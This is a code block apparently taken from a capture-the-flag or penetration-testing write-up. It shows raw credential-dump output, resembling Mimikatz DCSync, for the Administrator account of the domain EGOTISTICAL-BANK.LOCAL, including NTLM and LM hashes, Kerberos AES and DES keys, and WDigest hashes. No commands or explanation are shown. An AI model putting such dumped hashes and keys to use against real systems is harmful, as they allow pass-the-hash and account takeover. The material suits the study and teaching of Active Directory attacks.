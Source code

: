 ```bash

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/26/2021 9:16:16 AM
Object Security ID   : S-1-5-21-2966785786-3096785034-1186376766-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 823452073d75b9d1cf70ebdf86c7f98e
    ntlm- 0: 823452073d75b9d1cf70ebdf86c7f98e
    ntlm- 1: d9485863c1e9e05851aa40cbb4ab9dff
    ntlm- 2: 7facdc498ed1680c4fd1448319a8c04f
    lm  - 0: 365ca60e4aba3e9a71d78a3912caf35c
    lm  - 1: 7af65ae5e7103761ae828523c7713031

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 716dbadeed0e537580d5f8fb28780d44

* Primary:Kerberos-Newer-Keys *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
      aes128_hmac       (4096) : a9f3769c592a8a231c3c972c4050be4e
      des_cbc_md5       (4096) : fb8f321c64cea87f
    OldCredentials
      aes256_hmac       (4096) : 987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
      aes128_hmac       (4096) : 145e4d0e4a6600b7ec0ece74997651d0
      des_cbc_md5       (4096) : 19d5f15d689b1ce5
    OlderCredentials
      aes256_hmac       (4096) : 9637f48fa06f6eea485d26cd297076c5507877df32e4a47497f360106b3c95ef
      aes128_hmac       (4096) : 52c02b864f61f427d6ed0b22639849df
      des_cbc_md5       (4096) : d9379d13f7c15d1c

* Primary:Kerberos *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
    Credentials
      des_cbc_md5       : fb8f321c64cea87f
    OldCredentials
      des_cbc_md5       : 19d5f15d689b1ce5

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  b4a06d28f92506a3a336d97a66b310fa
    02  71efaf133c578bd7428bd2e1eca5a044
    03  974acf4f67e4f609eb032fd9a72e8714
    04  b4a06d28f92506a3a336d97a66b310fa
    05  79ba561a664d78d6242748774e8475c5
    06  f1188d8ed0ca1998ae828a60a8c6ac29
    07  801ddc727db9fa3de98993d88a9ffa8b
    08  a779e05da837dd2d303973304869ec0f
    09  ac2c01846aebce4cbd4e3ec69b47a65d
    10  6d863d6ae06c3addc49b7a453afe6fa0
    11  a779e05da837dd2d303973304869ec0f
    12  6676b9fdd4aa7f298f1ada64c044c230
    13  5a01167d750636d66e5602db9aece9b7
```